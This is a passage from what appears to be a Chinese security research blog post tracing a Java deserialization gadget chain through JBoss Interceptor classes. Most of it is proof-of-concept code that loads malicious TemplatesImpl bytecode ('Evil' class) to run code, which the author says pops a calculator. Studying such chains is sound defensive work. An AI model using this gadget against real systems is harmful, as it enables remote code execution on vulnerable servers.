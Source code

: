 ```
        InterceptorInvocation interceptorInvocationObj = (InterceptorInvocation) getObjectByUnsafe(InterceptorInvocation.class);
        Object o = interceptorMethodInvocationDeclaredConstructor.newInstance(interceptorInvocationObj, templatesImpl, defaultMethodMetadata);
        // 主动调用 invoke 方法
        Method invokeMethod = o.getClass().getDeclaredMethod("invoke", InvocationContext.class);
        invokeMethod.setAccessible(true);
        invokeMethod.invoke(o, new Object[]{null});
    }

    // 通过 Unsafe 无视构造方法进行实例化
    public static Object getObjectByUnsafe(Class myclazz) throws Exception {
        Class<?> clazz = Class.forName("sun.misc.Unsafe");
        Field theUnsafe = clazz.getDeclaredField("theUnsafe"); // 因为 theUnsafe 使用 static 进行修饰, 在 static 代码块中进行初始化,
        theUnsafe.setAccessible(true);
        Unsafe o = (Unsafe) theUnsafe.get(null);
        return o.allocateInstance(myclazz);
    }

    public static TemplatesImpl getTemplatesImpl() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes"); // 最终调用到 defineClass 方法中加载类字节码
        Field name = templates.getClass().getDeclaredField("_name"); // 放置任意值
        Field tfactory = templates.getClass().getDeclaredField("_tfactory");
        name.setAccessible(true);
        bytecodes.setAccessible(true);
        tfactory.setAccessible(true);
        byte[][] myBytes = new byte[1][];
        myBytes[0] = Repository.lookupClass(Evil.class).getBytes(); // 这个恶意类必须继承`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`抽象类, 之前有分析过, 就不提及了.
        bytecodes.set(templates, myBytes);
        name.set(templates, "");
        tfactory.set(templates, new TransformerFactoryImpl());
        return templates;
    }
}

```  
  
运行即可弹出计算器.  
### org.jboss.interceptor.proxy.SimpleInterceptionChain::invokeNextInterceptor -> 链式调用 & 未实现 Serializable  
  
根据之前DEBUG  
的观察, 可以发现在下方进行调用了InterceptorInvocation$InterceptorMethodInvocation::invoke  
方法, 如图:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCsPMx13EJPZp9sqYeHAhpvcwCicotdADLJQrkwWFYHOEaqTe4EwS9JMwg/640?wx_fmt=png&from=appmsg "")  
  